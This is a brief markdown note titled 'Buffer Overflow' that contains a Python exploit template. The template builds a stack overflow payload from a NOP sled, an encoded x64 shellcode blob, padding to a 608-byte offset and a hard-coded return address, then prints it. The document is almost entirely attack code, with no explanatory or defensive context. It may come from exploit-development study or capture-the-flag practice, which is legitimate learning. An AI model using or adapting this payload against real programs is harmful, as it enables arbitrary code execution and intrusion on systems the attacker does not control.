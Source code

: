 # Buffer Overflow 

## Base python script

`

from struct import pack

nop = '\x90'

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x7e\xe4\x73\xe1\x46\x73\xf8"
buf += b"\xde\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x14\xcd\x2b\x78\x2c\x71\xa7\xb4\x7f\xba\x7c\xe4\x0e"
buf += b"\xe4\xb0\x67\x7c\xe4\x50\xc8\x4c\x7b\x07\x2a\x2f\xac"
buf += b"\xfa\x07\x2c\x63\xa2\xb4\x54\xbc\x7c\xe4\x2c\x70\xa6"
buf += b"\x96\x81\x2a\x19\xc0\x1e\x7c\xfd\xab\x88\x8e\x48\xb9"
buf += b"\xdf\x3b\x43\xf1\x1c\x8d\x1d\xce\x35\x1b\xf8\x8d\x36"
buf += b"\x6d\x94\xb3\x11\x3b\x71\x38\x71\xe1\x73\xe1\x46\x73"
buf += b"\xf8\xde"

offset = 608
jumpadd = 0x7fffffffe2fc
len_payload = offset + 8
nop_payload = 300* nop
len_shell = len(buf)
len_nop = len(nop_payload)
padding = 'A' * (len_payload - len_shell - len_nop)
payload = nop_payload + buf + padding + pack("<Q", jumpadd)

print(payload)

`

